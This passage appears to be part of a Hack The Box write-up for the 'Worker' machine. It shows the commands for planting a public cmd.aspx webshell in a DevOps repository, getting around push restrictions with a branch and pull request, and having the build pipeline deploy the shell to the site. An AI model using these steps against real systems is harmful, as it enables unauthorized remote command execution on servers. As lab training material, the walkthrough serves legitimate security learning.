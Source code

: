 Cloning the repository:
```
git clone http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
```

I will use _cmd.aspx_ from the [tennc webshell repository](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) to upload:
```
cp fuzzdb-webshell/asp/cmd.aspx ~/htb/boxes/worker/devops/spectral/

git add .
git commit -m "Added a new file"

git push
```

A _push_ to this repository is not allowed:
```
! [remote rejected] master -> master (TF402455: Pushes to this branch are not permitted; you must use a pull request to update this branch.)
error: failed to push some refs to 'http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral'
```

Creating a new _branch_ and pushing the webshell there:
```
git branch test
git checkout test

git push --set-upstream origin test
```

Now the file _cmd.aspx_ is on the repository in the branch _test_ and a pull request has to be done to merge this to the master branch:

![Creating pull request](worker_web-2.png)

```
Work Items: 1 --> Create --> Complete
```

After the pipeline builds the webpage, the webshell _cmd.aspx_ can be found on the _spectral.worker.htb_ page:

![Webshell on spectral](worker_web-3.png)
